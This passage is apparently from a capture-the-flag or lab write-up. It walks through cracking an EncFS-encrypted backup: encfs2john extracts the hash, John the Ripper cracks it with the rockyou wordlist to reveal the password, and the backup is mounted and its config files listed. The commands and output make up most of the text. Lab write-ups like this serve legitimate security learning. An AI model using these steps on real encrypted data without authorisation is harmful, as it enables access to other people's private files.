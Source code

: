 ```bash
```

We receive the encrypted backups. Now we have to find a way to decrypt the files.

#### Cracking EncFS password

A quick [google search](https://www.google.com/search?q=cracking+encfs) reveals that John is capable to crack the EncFS system, if the `.encfs6.xml` file is available. (According to [this StackExchange Thread](https://security.stackexchange.com/questions/98205/breaking-encfs-given-encfs6-xml)).

For this, we have to use `encfs2john` to extract the hash, that we can then crack.

```bash
root@darkness:~# /usr/share/john/encfs2john.py rsync/ > encfs6.xml.john
root@darkness:~# cat encfs6.xml.john 
rsync/:$encfs$192*580280*0*20*99176a6e4d96c0b32bad9d4feb3d8e425165f105*44*1b2a580dea6cda1aedd96d0b72f43de132b239f51c224852030dfe8892da2cad329edc006815a3e84b887add
```

Now that we have extracted the hash, let us use john to crack it.

```bash
root@darkness:~# john encfs6.xml.john -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (EncFS [PBKDF2-SHA1 256/256 AVX2 8x AES])
bubblegum        (rsync/)
```

We successfully crack the password used: `bubblegum`. Now let us decrypt the files.

#### Decrypting the backup-files

```bash
root@darkness:~# encfs $(pwd)/rsync /mnt/encfs
The directory "/mnt/encfs/" does not exist. Should it be created? (y,N) Y
EncFS Password: bubblegum
```

We successfully decrypt the backup and are now able to read all files:

```bash
root@darkness:/mnt/encfs# ls -lah
total 628K
drwxr-xr-x 2 root root 4.0K Apr  4  2020 .
drwxr-xr-x 4 root root 4.0K Dec  2 13:33 ..
-rw-r--r-- 1 root root  267 Apr  4  2020 50-localauthority.conf
-rw-r--r-- 1 root root  455 Apr  4  2020 50-nullbackend.conf
-rw-r--r-- 1 root root   48 Apr  4  2020 51-debian-sudo.conf
-rw-r--r-- 1 root root  182 Apr  4  2020 70debconf
-rw-r--r-- 1 root root 2.3K Apr  4  2020 99-sysctl.conf
-rw-r--r-- 1 root root 4.5K Apr  4  2020 access.conf
-rw-r--r-- 1 root root 3.0K Apr  4  2020 adduser.conf
[...]
-rw-r--r-- 1 root root  677 Apr  4  2020 timesyncd.conf
-rw-r--r-- 1 root root 1.3K Apr  4  2020 ucf.conf
-rw-r--r-- 1 root root  281 Apr  4  2020 udev.conf
-rw-r--r-- 1 root root  378 Apr  4  2020 update-initramfs.conf
-rw-r--r-- 1 root root 1.2K Apr  4  2020 user.conf
-rw-r--r-- 1 root root  414 Apr  4  2020 user-dirs.conf
-rw-r--r-- 1 root root 1.9K Apr  4  2020 Vendor.conf
-rw-r--r-- 1 root root 1.5K Apr  4  2020 wpa_supplicant.conf
-rw-r--r-- 1 root root  100 Apr  4  2020 x86_64-linux-gnu.conf
-rw-r--r-- 1 root root  642 Apr  4  2020 xattr.conf
```

